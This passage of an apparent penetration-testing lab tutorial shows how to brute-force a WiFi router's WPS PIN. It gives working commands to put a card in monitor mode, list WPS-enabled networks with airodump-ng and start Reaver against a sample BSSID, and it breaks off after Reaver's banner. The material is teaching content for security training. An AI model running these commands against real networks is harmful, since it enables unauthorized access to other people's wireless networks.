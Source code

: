 <td><code>-O</code></td>
<td>Write packets of interest into pcap file</td>
</tr>
</tbody>
</table>
<hr/>
<h3>Brute-forcing WPS PIN</h3>
<p>To begin, we need to enable monitor mode. We can use the <code>iw</code> command to add a new interface named <code>mon0</code> and set its type to monitor mode, as demonstrated below. Due to a known bug, setting the interface to monitor mode using <code>airmon-ng</code> can cause <code>Reaver</code> to malfunction. Therefore, it is recommended to use the <code>iw</code> command for this purpose.</p>
<pre><code class="language-shell-session">[!bash!]$ iw dev wlan0 interface add mon0 type monitor

[!bash!]$ ifconfig mon0 up

[!bash!]$ iwconfig

lo        no wireless extensions.

eth0      no wireless extensions.

mon0      IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on
</code></pre>
<p>Once we've added an interface with monitor mode enabled, we can use <code>airodump-ng</code> to enumerate WPS enabled WiFi networks.</p>
<pre><code class="language-shell-session">[!bash!]$ airodump-ng mon0 --wps

 CH  8 ][ Elapsed: 0 s ][ 2024-06-26 10:06 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSID

 AE:EB:B0:11:A0:1E  -28       11        0    0   1   54   WPA2 CCMP   PSK  2.0    HackMe   
 B2:A5:1D:E1:B2:11  -28       11        0    0   1   54   WPA2 CCMP   PSK  2.0    GammerZone
 5A:1A:59:B7:E7:97  -28       11        0    0   1   54   WPA2 CCMP   PSK  2.0    Teddy      

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
</code></pre>
<p>Now we can start bruteforcing using Reaver. To begin, we need to specify the interface with the <code>-i</code> argument, the BSSID with the <code>-b</code> argument, and the channel with the <code>-c</code> argument. Reaver will then automatically begin bruteforcing every possible PIN, which totals <code>11,000</code> possible PINs.</p>
<pre><code class="language-shell-session">[!bash!]$ reaver -i mon0 -b AE:EB:B0:11:A0:1E -c 1 

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner &lt;<a class="__cf_email__" data-cfemail="03606b6665656d6671437762606d6677706c6f2d606c6e" href="/cdn-cgi/l/email-protection">[email protected]</a>&gt;
